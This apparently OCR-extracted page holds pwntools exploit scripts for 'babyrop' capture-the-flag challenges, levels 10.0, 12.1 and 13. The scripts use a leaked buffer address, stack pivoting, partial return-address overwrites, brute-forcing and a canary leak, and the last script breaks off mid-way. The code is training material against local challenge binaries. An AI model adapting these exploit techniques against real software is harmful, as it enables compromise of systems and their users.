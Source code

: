 p=process(['/challenge/babyrop_level10.0'])
elf=ELF("/challenge/babyrop_level10.0")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

p.recvuntil("[LEAK] Your input buffer is located at: ")
add_str=p.recvuntil(".",drop=True)
buffer_add=int(add_str,16)

#         0x20c6
leave_ret=0x17b6

rbp_addr=buffer_add-0x10
payload=b'b'*0x58+p64(rbp_addr)+b'\xb6\x47'
p.send(payload)

p.interactive()

level 12.1
#爆破
from pwn import *
for i in range(0x40):
    p=process(['/challenge/babyrop_level12.1'])
    elf=ELF("/challenge/babyrop_level12.1")
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

    p.recvuntil("[LEAK] Your input buffer is located at: ")
    add_str=p.recvuntil(".",drop=True)
    buffer_add=int(add_str,16)

    #         0x20c6
    leave_ret=0x17b6

    rbp_addr=buffer_add-0x10
    payload=b'b'*0x48+p64(rbp_addr)+b'\x48\x4a\xda'
    p.send(payload)

    p.interactive()
    p.poll()

level 13
from pwn import *
p=process(["/challenge/babyrop_level13.0"])
elf=ELF("/challenge/babyrop_level13.0")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

p.recvuntil("[LEAK] Your input buffer is located at: ")
add_str=p.recvuntil(".",drop=True)
buffer_add=int(add_str,16)
can_add=buffer_add+0x28


p.sendline(hex(can_add))
p.recvuntil(" = ")
can_str=p.recvuntil("\n",drop=True)
can=int(can_str,16)
